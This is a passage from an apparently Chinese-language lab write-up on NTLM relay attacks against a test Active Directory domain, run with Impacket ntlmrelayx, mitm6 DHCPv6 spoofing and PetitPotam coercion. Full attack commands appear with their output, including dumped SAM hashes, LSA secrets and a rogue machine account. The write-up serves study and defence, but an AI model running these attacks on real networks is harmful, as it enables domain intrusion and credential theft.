   连接特定的 DNS 后缀 . . . . . . . : raingray.com
   本地链接 IPv6 地址. . . . . . . . : fe80::bb98:7501:b855:2d18%2
   IPv4 地址 . . . . . . . . . . . . : 192.168.37.5
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.37.254
   ......
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
......
```

关于签名的问题。如果受害者 raingray\\zhangqi 在机器 192.168.37.3 开启了客户端签名。

```plaintext
// SMB 客户端启用签名
reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManWorkstation\Parameters /v RequireSecuritySignature /t REG_DWORD /d 1 /f
```

此时访问 ntlmrelayx.py SMB 服务，被 Relay 到 smb://192.168.37.5 上。那么访问结果提示无效签名。

```plaintext
C:\Users\zhangqi>dir \\testaz\share
无效签名。
```

但 ntlmrelayx.py 依旧能获取到命令执行的结果。猜测是不是 ntlmrelayx.py 自动把客户端签名给删了再转发的信息。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ 
......
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.37.3, attacking target smb://192.168.37.5
[*] Authenticating against smb://192.168.37.5 as RAINGRAY/ZHANGQI SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Executed specified command on host: 192.168.37.5

用户信息
----------------

用户名              SID     
=================== ========
nt authority\system S-1-5-18
nt authority\system S-1-5-18
......
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

**四、Socks 功能**

使用 -socks 只要中继成功就会在本地 1080 监听端口自动维持会话有效性，后续通过代理 [impacket 客户端工具](https://github.com/fortra/impacket/tree/master/impacket/examples/ntlmrelayx/clients)流量到 1080 端口利用会话，只是目前[支持的 socks 的服务](https://github.com/fortra/impacket/tree/master/impacket/examples/ntlmrelayx/servers/socksplugins)有点少，有 http、https、iamp、iamps、mssql、smb、smtp。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-ntlmrelayx -of relayReulst.txt -t smb://192.168.37.5 -smb2support -socks --no-http-server --no-wcf-server --no-raw-server 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening at port 1080
[*] SMB Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] IMAPS Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] Setting up SMB Server

[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx>  * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off

ntlmrelayx>
```

当有连接被成功利用自动建立会话，可以用 socks 命令查看有哪些目标 Relay 成功。

```plaintext
ntlmrelayx> [*] SMBD-Thread-8 (process_request_thread): Received connection from 192.168.37.3, attacking target smb://192.168.37.5
[*] Authenticating against smb://192.168.37.5 as RAINGRAY/ZHANGQI SUCCEED
[*] SOCKS: Adding RAINGRAY/ZHANGQI@192.168.37.5(445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-9 (process_request_thread): Connection from 192.168.37.3 controlled, but there are no more targets left!
......

ntlmrelayx> socks
Protocol  Target        Username          AdminStatus  Port 
--------  ------------  ----------------  -----------  ----
SMB       192.168.37.5  RAINGRAY/ZHANGQI  TRUE         445
```

通过查询本地 socks 端口，确实 1080 被开启。

```plaintext
┌──(kali㉿kali)-[~]
└─$ netstat -pant | grep 1080
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:1080            0.0.0.0:*               LISTEN      362612/python3      

┌──(kali㉿kali)-[~]
└─$ ps aux | grep 362612     
kali      362612  1.1  4.2 536744 85468 pts/0    Sl+  02:31   0:02 python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -of relayReulst.txt -t smb://192.168.37.5 -smb2support -socks --no-http-server --no-wcf-server --no-raw-server
kali      364486  0.0  0.1   6344  2304 pts/1    S+   02:34   0:00 grep --color=auto 362612
```

通过 proxychains 代理到 1080 上执行命令。

```plaintext
┌──(kali㉿kali)-[~]
└─$ proxychains impacket-secretsdump RAINGRAY/ZHANGQI@192.168.37.5                 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.37.5:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x232a1f94a04720795aa3c9a23ea13784
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:98feb9b195adec8f7336e5471d6e435d:::
wuhui:1001:aad3b435b51404eeaad3b435b51404ee:9df8fdcfb193c34fb9770367491e25d1:::
[*] Dumping cached domain logon information (domain/username:hash)
RAINGRAY.COM/wusilin:$DCC2$10240#wusilin#b9df46c978204ad949e43659f26723b2: (2023-11-29 06:30:17)
RAINGRAY.COM/svc-joindomain:$DCC2$10240#svc-joindomain#c4f35d24a4cca9ef76956bfc1aac6fbd: (2023-11-29 06:34:41)
RAINGRAY.COM/Administrator:$DCC2$10240#Administrator#8d19ea742fb3ba8b858c25ae21655e52: (2023-11-29 06:34:47)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
RAINGRAY\PC-01$:aes256-cts-hmac-sha1-96:a89de4afcdae7923770e834fae059b5ff2d2a6e2e2a5b4f7f1098ec479062ef5
RAINGRAY\PC-01$:aes128-cts-hmac-sha1-96:3419722f9288d847338a866e1e9f2279
RAINGRAY\PC-01$:des-cbc-md5:ef202f13cb7cea85
RAINGRAY\PC-01$:plain_password_hex:2d0042005b00590026005c0023003300260024007900400066002d005b0079005d004400680028002000570074005600640074006700420078006f006a0041004700310070003d00440044005f005d00500045003d003f00370044002a002100310064006600390043006d003d007300570029002f0022005a005000520063004a00580076004e005c003f006c002900480033004d006c003800760059002100580025006f0048004f006a0068002500360076007800730053006a00590030004e0042004d0028005f002000360038006e00420030002f0051002d002900730051003d004800730030006d0058006400
RAINGRAY\PC-01$:aad3b435b51404eeaad3b435b51404ee:8769cb40c7f80338c834a7665dab9b77:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5d46df79a300eba76a13024b0b6b6dd351e6d03e
dpapi_userkey:0x13e880fe5f8d1b2c55be11066e4a8f4d6d7b914c
[*] NL$KM 
 0000   E7 31 6E 5A C5 E6 41 F2  C1 E4 87 7A 0B B6 2B D3   .1nZ..A....z..+.
 0010   49 6B 6F A7 2E 7B 71 D1  E7 CD A0 D3 9D 6F 28 B9   Iko..{q......o(.
 0020   91 7C EC 13 B2 A4 73 E4  40 64 4D 29 A4 1C 94 4C   .|....s.@dM)...L
 0030   D7 D8 5E E3 3C 84 1F 7F  04 B7 1B 83 8D FE 13 4F   ..^.<..........O
NL$KM:e7316e5ac5e641f2c1e4877a0bb62bd3496b6fa72e7b71d1e7cda0d39d6f28b9917cec13b2a473e440644d29a41c944cd7d85ee33c841f7f04b71b838dfe134f
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

也可以用 smbexec.py 去执行命令。这个-no-pass 选项是不让脚本提示输入密码，因为已经有了会话不用输，如果不用这个选项提示你输入，就直接按回车键即可。

```plaintext
┌──(kali㉿kali)-[~]
└─$ proxychains impacket-smbexec RAINGRAY/ZHANGQI@192.168.37.5 -no-pass -codec gbk
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.37.5:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>ipconfig

Windows IP 配置


以太网适配器 Ethernet0:

   连接特定的 DNS 后缀 . . . . . . . : raingray.com
   本地链接 IPv6 地址. . . . . . . . : fe80::bb98:7501:b855:2d18%2
   IPv4 地址 . . . . . . . . . . . . : 192.168.37.5
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . : 192.168.37.254

以太网适配器 蓝牙网络连接:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . : 

C:\Windows\system32>
```

如果要结束 socks 会话就 exit 直接退出脚本，没法关闭指定会话。

###### HTTP To LDAP⚒️

Relay 也支持跨协议中继（Cross Protocol Relaying），如 SMB -> LDAP，HTTP -> SMB。只要不是 SMB -> SMB 这种中继到原有协议上，除此之外都是跨协议。

**一、LDAP 签名**

内网一般来说只有域控开启了 LDAP。

服务端 LDAP 默认设置的 1 是协商签名，说明服务端有签名的能力，要不要签名由客户端来控制，2 则是强制签名，客户端必须支持签名，设置为 0 代表不需要签名。

可以通过 LDAPServerIntegrity 来确认服务端签名设置情况。

```plaintext
C:\Users\Administrator>reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v LDAPServerIntegrity

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters
    LDAPServerIntegrity    REG_DWORD    0x1
```

客户端通过 LdapClientIntegrity 来看客户端签名设置情况。

```plaintext
PS C:\Users\gbb> reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LDAP /v LdapClientIntegrity

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LDAP
    LdapClientIntegrity    REG_DWORD    0x1
```

SMB To LDAP 则提示客户端有签名，也查询了客户端没有开启签名。

```plaintext
┌──(kali㉿kali)-[~]
└─$ sudo impacket-ntlmrelayx -t ldap://192.168.37.1 -smb2support --no-http-server --no-wcf-server --no-raw-server
......
[*] Servers started, waiting for connections
[*] SMBD-Thread-3 (process_request_thread): Received connection from fe80::73ab:d035:7fd3:9b2f, attacking target ldap://192.168.37.1
[!] The client requested signing. Relaying to LDAP will not work! (This usually happens when relaying from SMB to LDAP)
```

WireShark 抓包 [SMB To LDAP.pcapng](https://www.raingray.com/usr/uploads/2023/12/2638146171.pcapng)，192.168.37.3 是受害者，192.168.37.2 是 Kali 上搭建的 SMB 服务，192.167.37.1 是域控。

可以看到一切都认证成功了 No.65 是客户端 SearchRequest，域控的 LDAP 没有任何响应，直接断开 TCP 连接。这个问题在 Impacket Issues 中有提到：“[NTLMRelayX SMB->LDAP ensure that negotiate request disables signing #500](https://github.com/fortra/impacket/pull/500)”，后来大家发现还是因为是服务端启用签名的问题，就算设置为协商也没办法，在 LDAP 请求中没有签名直接拒绝。后来有研究 SMB To LDAP 可以直接删除签名，漏洞编号是 CVE-2019-1040，在 impacket 中 --remove-mic 选项实现了漏洞利用。

没法 SMB To LDAP 可以通过 HTTP、WebDav 中继到 LDAP 则不需要签名。如果服务端强制开启签名，这两种方法也没办法利用。所以最好提前扫描签名是否开启，扫描有很多工具这里使用 [LdapRelayScan](https://github.com/zyn3rgy/LdapRelayScan)，但个人通过 Python 创建虚拟环境运行直接抛异常，没法正常使用。

**二、使用 mitm6 进行 DHCPv6 Spoofing-获取域内所有信息**

开启恶意 HTTP 服务，让域管理员或者其他用户访问此服务，自动把凭证转发到其他机器做认证。如果有多张网卡可以用 -ip 来指定使用那个地址。

```plaintext
sudo ntlmrelayx.py -t ldap://<IP> --no-smb-server --no-wcf-server --no-raw-server
```

怎么让域管理员访问这个恶意的 HTTP 服务呢？一个是直接访问，几乎不可能。另一个选项是利用强制认证最方便了，这里因为搭建的系统版本较高，无法使用就把两种利用仅做工具参数演示。

全程使用 DHCPv6 欺骗，在响应中 WPAD Server 地址，在域管理员登录机器的时候来自动利用。

1.PetitPotam

使用 PetitPotam 让 192.168.37.1 强制认证到 192.168.37.2 的 80 端口的 x 资源。这里有个坑是被攻击机必须使用主机名或者 FQDN，这里 192.168.37.2 主机名是 kali。

```plaintext
# 使用凭证进行强制认证。也可以使用哈希，可以查看帮助来看怎么填参数
python3 PetitPotam.py -u zhangqi -d raingray.com -p '123!@#qweQWE' kali@80/x 192.168.37.1

# 匿名强制认证
python3 PetitPotam.py kali@80/x 192.168.37.1
```

2.DHCPv6 响应 DNS 利用

ntlmrelayx -6 选项将 http 服务同时也监听 IPv6 地址上，--no-da 和 --no-acl 是不要尝试 LDAP 其他的利用方式，让其默默导出域内的信息即可。

```plaintext
python3 ntlmrelayx.py -t ldap://<Domain Controller IP> --no-smb-server --no-wcf-server --no-raw-server --no-da --no-acl
```

再运行 mitm6，通过 DHCP 欺骗直接给发起 DHCPv6 广播的客户端响应 IPv6 的 DNS 服务器地址。当通过受害者使用浏览器访问指定域名时，会把域名解析发送到 mitm6 开启的 DNS 服务器，由于 IPv6 DNS 优先级比 IPv4 DNS 请求高，查询返回的 IP 当前恶意服务器，因此自动请求 ntlmrelayx 脚本开启的 HTTP 服务，输入账户后完成 Relay 攻击。

使用 -d 选项只欺骗包含 test.com 关键字的域名，这样就不会影响到其他域名，避免所有服务没法正常使用。

```plaintext
sudo mitm6 -i eth1 -d test.com
```

受害者开机或者 ipconfig /renew6 重新获取 DHCPv6 地址后，稍微等待会儿将收到 mitm6 响应的 IPv6 配置。



通过 WireShark 抓包 "[DHCPv6 广播响应.pcapng](https://www.raingray.com/usr/uploads/2023/12/2486237008.pcapng)" 能看到 No.1-4，No.6 是受害者 fe80::73ab:d035:7fd3:9b2f 向 ff02::1:2 发起组播，让所有 DHCP 服务器请求内容。而攻击机 fe80::b684:6836:38c:d92e 则直接响应 DNS 服务器。

输入域账户密码登录到受害者机器，查询网络配置 ipconfig /all 发现确实配置了攻击机响应的 IPv6 DNS 服务器和对应 DNS Suffix Search List。


在稍微等待一会儿，约二十来秒，会自动携带凭证向 ntlmrelayx 启动的 HTTP 服务请求 wpad.dat，完成 Relay 获取域中的信息。



或者受害者输入域账户进行 Basic 认证后自动响应 404——如果能自定义响应多好，直接跳转到内网其他业务系统上。



这样 ntlmrelayx 也会自动导出域内信息。



数据输出在当前目录，内容是关于域中用户、组、密码策略、域信任的信息，给你提供 JSON、HTML、PlainText 三种格式的数据浏览方式。



从 DHCP 欺骗到 HTTP To LDAP 整个过程通过 Wireshark 抓包 "[DHCPv6 Spoofing-Relay To LDAP.pcapng](https://www.raingray.com/usr/uploads/2023/12/3382041135.pcapng)" 来清晰的理解交互流程，包中一共涉及三台主机：

-   域控：192.168.37.1
-   受害者：192.168.37.3
-   攻击机：192.168.37.2

DHCPv6 在前面有单独摘出来讲过，这里我们只关注下 HTTP To LDAP 的过程（使用 Ctrl + g 可以快速跳到对应编号的包，比如 No.10，就输入 10 转到对应分组）：

-   No.1694，No.1696 访问攻击机。发现响应 401 准备携带凭证。
    
    ```plaintext
    GET /wpad.dat HTTP/1.1
    Host: wpad
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.46
    Accept-Encoding: gzip, deflate
    
    HTTP/1.1 401 Unauthorized
    Server: SimpleHTTP/0.6 Python/3.11.6
    Date: Wed, 13 Dec 2023 07:54:11 GMT
    WWW-Authenticate: NTLM
    Content-type: text/html
    Content-Length: 0
    Connection: keep-alive
    ```
    
    你可能觉得 Host 请求头值是 wpad，DNS 查询不到记录才对，但前面 DHCPv6 返回 DNS 服务器时也返回了 DNS Suffix Search List，所以请求主机 wpad 自动变成 wpad.test.com，而工具刚好匹配的就是 test.com，一看这个字符串存在就返回解析结果。
    
-   No.1698 受害者向攻击机 HTTP 服务发起协商。No.1711 攻击机 HTTP 响应协商结果并返回 Challenge。
    
    ```plaintext
    GET /wpad.dat HTTP/1.1
    Host: wpad
    Connection: keep-alive
    Authorization: NTLM TlRMTVNTUAABAAAAB4IIogAAAAAAAAAAAAAAAAAAAAAKAGFKAAAADw==
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.46
    Accept-Encoding: gzip, deflate
    
    HTTP/1.1 401 Unauthorized
    Server: SimpleHTTP/0.6 Python/3.11.6
    Date: Wed, 13 Dec 2023 07:54:11 GMT
    WWW-Authenticate: NTLM TlRMTVNTUAACAAAAEAAQADgAAAAFgomisu/i/Z4z6qMAAAAAAAAAALIAsgBIAAAACgBjRQAAAA9SAEEASQBOAEcAUgBBAFkAAgAQAFIAQQBJAE4ARwBSAEEAWQABABoARABDAC0AQgBFAEkASgBJAE4ARwAtADAAMQAEABgAcgBhAGkAbgBnAHIAYQB5AC4AYwBvAG0AAwA0AEQAQwAtAEIARQBJAEoASQBOAEcALQAwADEALgByAGEAaQBuAGcAcgBhAHkALgBjAG8AbQAFABgAcgBhAGkAbgBnAHIAYQB5AC4AYwBvAG0ABwAIAA+1VY+ZLdoBAAAAAA==
    Content-type: text/html
    Content-Length: 0
    Connection: keep-alive
    ```
    
    No.1709 攻击机转手就直接向域控 LDAP 转发的受害者协商请求做认证。No.1710 攻击机收到域控的 Challenge，希望进一步做认证。
    
-   No.1712，受害者加密 Challenge 向攻击机发起认证，No.1739 攻击机响应 404。
    
    ```plaintext
    GET /wpad.dat HTTP/1.1
    Host: wpad
    Connection: keep-alive
    Authorization: NTLM TlRMTVNTUAADAAAAGAAYAIAAAABIAUgBmAAAABAAEABYAAAADgAOAGgAAAAKAAoAdgAAAAAAAADgAQAABYKIogoAYUoAAAAPzkrM7oY/ZK5tX5lGyZbW61IAQQBJAE4ARwBSAEEAWQB6AGgAYQBuAGcAcQBpAFAAQwAtADAAMgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACrqyhQNExIrjyfMB9CqV5OAQEAAAAAAAAPtVWPmS3aAUUswA0pBxmTAAAAAAIAEABSAEEASQBOAEcAUgBBAFkAAQAaAEQAQwAtAEIARQBJAEoASQBOAEcALQAwADEABAAYAHIAYQBpAG4AZwByAGEAeQAuAGMAbwBtAAMANABEAEMALQBCAEUASQBKAEkATgBHAC0AMAAxAC4AcgBhAGkAbgBnAHIAYQB5AC4AYwBvAG0ABQAYAHIAYQBpAG4AZwByAGEAeQAuAGMAbwBtAAcACAAPtVWPmS3aAQYABAACAAAACAAwADAAAAAAAAAAAQAAAAAgAAAX++TpENzoNzTYdevWkr1RqHw/QSo+wIFQ9+/nkUZMHQoAEAAAAAAAAAAAAAAAAAAAAAAACQASAEgAVABUAFAALwB3AHAAYQBkAAAAAAAAAAAA
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 Edg/118.0.2088.46
    Accept-Encoding: gzip, deflate
    
    HTTP/1.1 404 Not Found
    Server: SimpleHTTP/0.6 Python/3.11.6
    Date: Wed, 13 Dec 2023 07:54:11 GMT
    WWW-Authenticate: NTLM
    Content-type: text/html
    Content-Length: 0
    Connection: close
    ```
    
    No.1713 攻击机携带受害者认证消息向域控 LDAP 发起 bindRequest 认证，No.1714 返回 resultCode: success (0)，表示认证成功。后面的都是 LDAP 查询数据。
    

**三、使用 mitm6 进行 DHCPv6 Spoofing-创建机器账户**

默认情况下每个域账户可以创建 10 个机器账户，通过中继让受害者来创建个机器账户，后续使用某些漏洞用来做认证或是信息收集。

ntlmrelayx.py 的 --add-computer 选项创建机器账户，不填默认是随机用户名和密码，也可以指定用户名或密码 --add-computer machineUsername password，单独只写用户名随机生成密码也行 --add-computer machineUsername。

```plaintext
python3 ntlmrelayx.py -t ldaps://<Domain Controller IP> --no-smb-server --no-wcf-server --no-raw-server --add-computer
```

和上面一样启动 mitm6。

```plaintext
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -i eth1 -d test.com
[sudo] password for kali: 
Starting mitm6 using the following configuration:
Primary adapter: eth1 [00:0c:29:6f:bb:e9]
IPv4 address: 192.168.37.2
IPv6 address: fe80::b684:6836:38c:d92e
DNS local search domain: test.com
DNS allowlist: test.com
```

稍微等待一会儿，LDAPS 会连接重置报错。

```plaintext
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -t ldaps://192.168.37.1 --no-smb-server --no-wcf-server --no-raw-server --add-computer -debug 
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
......
[*] Running in relay mode to single host
[*] Setting up HTTP Server on port 80

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from 192.168.37.3 controlled, attacking target ldaps://192.168.37.1
[+] HTTPD(80): Exception:
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/servers/httprelayserver.py", line 74, in handle_one_request
    http.server.SimpleHTTPRequestHandler.handle_one_request(self)
  File "/usr/lib/python3.11/http/server.py", line 424, in handle_one_request
    method()
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/servers/httprelayserver.py", line 275, in do_GET
    self.do_relay(messageType, token, proxy)
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/servers/httprelayserver.py", line 392, in do_relay
    if not self.do_ntlm_negotiate(token, proxy=proxy):
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/servers/httprelayserver.py", line 283, in do_ntlm_negotiate
    if not self.client.initConnection():
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/clients/ldaprelayclient.py", line 167, in initConnection
    self.session.open(False)
  File "/usr/lib/python3/dist-packages/ldap3/strategy/sync.py", line 57, in open
    BaseStrategy.open(self, reset_usage, read_server_info)
  File "/usr/lib/python3/dist-packages/ldap3/strategy/base.py", line 146, in open
    raise exception_history[0][0]
ldap3.core.exceptions.LDAPSocketOpenError: socket ssl wrapping error: [Errno 104] Connection reset by peer
```

换成普通的 LDAP 一样报 TLS 错误。

```plaintext
┌──(kali㉿kali)-[~]
└─$ sudo impacket-ntlmrelayx -t ldap://192.168.37.1 --no-smb-server --no-wcf-server --no-raw-server --add-computer -debug
[sudo] password for kali: 
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
......
[*] Running in relay mode to single host
[*] Setting up HTTP Server on port 80

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from 192.168.37.3 controlled, attacking target ldap://192.168.37.1
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Authenticating against ldap://192.168.37.1 as RAINGRAY/ZHANGQI SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[+] User is a member of: []
[+] User is a member of: [DN: CN=Domain Users,CN=Users,DC=raingray,DC=com - STATUS: Read - READ TIME: 2023-12-14T20:30:25.319727
    distinguishedName: CN=Domain Users,CN=Users,DC=raingray,DC=com
    name: Domain Users
    objectSid: S-1-5-21-247606177-2237963610-2667746150-513
]
[+] Computer container is CN=Computers,DC=raingray,DC=com
[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
Exception in thread Thread-3:
Traceback (most recent call last):
  File "/usr/lib/python3.11/threading.py", line 1045, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/ldapattack.py", line 1124, in run
    self.addComputer(computerscontainer, domainDumper)
  File "/usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/ldapattack.py", line 141, in addComputer
    if not self.client.start_tls():
           ^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/ldap3/core/connection.py", line 1314, in start_tls
    if self.server.tls.start_tls(self) and self.strategy.sync:  # for asynchronous connections _start_tls is run by the strategy
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/ldap3/core/tls.py", line 277, in start_tls
    raise LDAPStartTLSError(connection.last_error)
ldap3.core.exceptions.LDAPStartTLSError: startTLS failed - unavailable
```

根据 impacket issues "[ntlmrelayx: socket ssl wrapping error #581](https://github.com/fortra/impacket/issues/581)"，操作降级后配置完 reload 配置 systemctl daemon-reload 也没用。后来才看到当中提到使用 LDAPS 需要配置证书，这里不搭建 ADCS 使用自签名来解决证书问题。下面是 PowerShell 脚本全自动生成、导入证书，非常感谢 @jlaundry 编写的自动化配置脚本。

> ```powershell
> $hostname = $([System.Net.Dns]::GetHostByName($env:computerName)).HostName
> $domain = $(Get-ADDomain -Current LoggedOnUser).DNSRoot
> 
> # Create a new 10 year certificate
> $now = Get-Date
> $notafter = $now.AddYears(10)
> $cert = New-SelfSignedCertificate -certstorelocation cert:\localmachine\my -notafter $notafter -dnsname $hostname, $domain 
> 
> # Export the cert (without private key)
> Export-Certificate -Cert $cert -FilePath $Env:tmp\$hostname.cer
> 
> # Import the cert into trusted roots
> # 会导入证书到 certlm.msc 中的个人里面。
> Import-Certificate -FilePath "$Env:tmp\$hostname.cer" -CertStoreLocation Cert:\LocalMachine\Root
> Remove-Item $Env:tmp\$hostname.cer
> 
> 
> # Ask ADDS to reload the server cert
> # https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/4cf26e43-ae0b-4823-b00c-18205ab78065
> $renewservercert = @"
> dn:
> changetype: modify
> add: renewServerCertificate
> renewServerCertificate: 1
> -
> "@ -split '\n'
> 
> Set-Content "$Env:tmp\ldap-renewservercert.txt" $renewservercert
> 
> ldifde -i -f $Env:tmp\ldap-renewservercert.txt
> 
> Remove-Item $Env:tmp\ldap-renewservercert.txt
> ```
> 
> [Active Directory LDAPS certificate configuration - Jed Laundry (jlaundry.nz)](https://www.jlaundry.nz/2022/active_directory_ldaps_certificate_configuration/)
> 
> [How to Configure LDAPS for Active Directory Integration | Dell 中国](https://www.dell.com/support/kbdoc/zh-cn/000213104/how-to-configure-ldaps-for-active-directory-integration)

最后在域控命令提示符上运行 ldp 链接即可，要注意的点是 Server 要写主机名，尝试写 IP 连不上，端口呢 LDAPS 是 636，记得也要勾上 SSL 选项。



此时就连接成功。



为什么添加机器账户需要用 LDAPS？@lowercase\_drm 说是因为一些敏感操作必须要通过 TLS 链接进行。

> An encrypted connection (with either TLS or LDAP sealing) is required for some type of operations such as lookup of sensitive properties (e.g. passwords of managed accounts) and some modifications (such as creating a machine account). Thus, creating a machine account through an LDAP relay when Channel Binding is enabled is tricky, because a plain LDAP connection cannot be used.
> 
> [Bypassing LDAP Channel Binding with StartTLS - Almond Offensive Security Blog](https://offsec.almond.consulting/bypassing-ldap-channel-binding-with-starttls.html)

此时 ntlmrelayx 再进行添加账户，又提示 [0000216D](https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/active-directory-domain-join-troubleshooting-guidance#error-code-0x216d)。才发现把 raingray.com 域 ms-DS-MachineAccountQuota 设置为 0 了，导致普通域账户无法创建机器账户，重新设置为大于 0 的值即可解决。

```plaintext
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Authenticating against ldaps://192.168.37.1 as RAINGRAY/ZHANGQI SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Attempting to create computer in: CN=Computers,DC=raingray,DC=com
[-] Failed to add a new computer: {'result': 53, 'description': 'unwillingToPerform', 'dn': '', 'message': '0000216D: SvcErr: DSID-031A1236, problem 5003 (WILL_NOT_PERFORM), data 0\n\x00', 'referrals': None, 'type': 'addResponse'}
```

重新运行已经使用域账户 RAINGRAY/ZHANGQI 创建了机器账户 `ADDMACHINEACCOUNT$`，密码是 `V>rG>VDon.m^}k<`。如果还是失败可以尝试把 IP 替换成 FQDN，比如主机名是 PC-02，域名是 raingray.com，FQDN 为 PC-02.raingray.com。

```plaintext
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -t ldaps://192.168.37.1 --no-smb-server --no-wcf-server --no-raw-server --add-computer ADDMACHINEACCOUNT
Impacket v0.11.0 - Copyright 2023 Fortra

......
[*] Setting up HTTP Server on port 80

[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Client requested path: /wpad.dat
[*] HTTPD(80): Connection from 192.168.37.3 controlled, attacking target ldaps://192.168.37.1
[*] HTTPD(80): Client requested path: /wpad.dat
